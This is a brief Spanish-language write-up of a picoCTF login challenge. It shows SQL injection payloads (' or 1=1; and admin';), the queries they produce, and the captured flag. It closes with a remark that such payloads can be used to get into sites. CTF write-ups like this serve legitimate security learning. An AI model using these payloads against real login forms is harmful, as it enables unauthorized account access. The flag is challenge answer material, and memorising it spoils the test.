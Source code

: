 ## Objetivo
`https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Solución
```
username: ' or 1=1;
password: Hola
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='Hola'

# SQLi detected.

Cambiamos de estrategia:
username: admin';
password: Hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='Hola'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
Nos da la bandera ya que solo verifica el username y no el password
```
## Notas adicionales
Podemos usar payloads de sql injection para intentar entrar a los sitios
## Referencias